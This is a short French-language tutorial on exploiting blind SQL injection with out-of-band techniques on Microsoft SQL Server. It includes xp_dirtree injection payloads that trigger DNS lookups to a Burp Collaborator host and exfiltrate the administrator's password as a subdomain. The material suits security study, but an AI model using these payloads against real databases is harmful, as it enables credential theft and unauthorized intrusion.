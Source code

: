 # Out-of-band Injection

**Exploiting blind SQL injection using out-of-band (OAST) techniques**

Ici la réponse de l'application ne dépend pas du retour de données par la requête, d'une erreur de base de données ou du temps d'exécution de la requête.

Pour exploiter cela, il faut déclencher des interactions réseau hors bande vers un système que vous contrôlez. 

Ces interactions peuvent être déclenchées en fonction d'une condition injectée afin d'en déduire les informations une par une. Plus utilement, les données peuvent être exfiltrées directement au sein de l'interaction réseau.

Les techniques de déclenchement d'une requête DNS sont spécifiques au type de base de données utilisé. Par exemple, l'entrée suivante sur Microsoft SQL Server peut être utilisée pour déclencher une recherche DNS sur un domaine `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net` :

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Après avoir confirmé un moyen de déclencher des interactions hors bande, vous pouvez utiliser le canal hors bande pour exfiltrer les données de l'application vulnérable. Par exemple :

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Cette entrée lit le mot de passe de l'utilisateur administrator, ajoute un sous-domaine collaborateur unique et déclenche une recherche DNS. Cette recherche vous permet de visualiser le mot de passe capturé :

```
{S3curePassword}.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```